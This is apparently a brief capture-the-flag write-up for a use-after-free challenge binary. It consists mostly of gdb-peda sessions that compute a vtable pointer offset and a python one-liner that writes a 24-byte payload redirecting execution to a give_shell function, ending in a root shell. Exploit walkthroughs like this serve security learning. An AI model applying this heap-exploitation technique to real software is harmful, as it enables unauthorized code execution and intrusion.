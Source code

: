 ```sh
```

# Spoiler, two objects therefore two "use" to copy into memory

```sh
gdb-peda$ run 
1. use
2. after
3. free
3
1. use
2. after
3. free
2
1. use
2. after
3. free
2
1. use
2. after
3. free
1

RAX: 0xccccccccccccccd4 
RBX: 0x614ca0 --> 0xcccccccccccccccc
gdb-peda$ print /x 0xccccccccccccccd4 - 0xcccccccccccccccc
$1 = 0x8
```

# Replace pointer to give_shell+0x08

```sh
gdb-peda$ print /x 0x601590 - 0x08
$1 = 0x601588
```

# Test Shellcode

```sh
root@kali:~/CTF/UAF# python -c 'import struct;import sys;sys.stdout.write(struct.pack("<I", 0x601588) + "\x00"*(24-4))' > exploit
root@kali:~/CTF/UAF# ./uaf 24 exploit
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
#id
```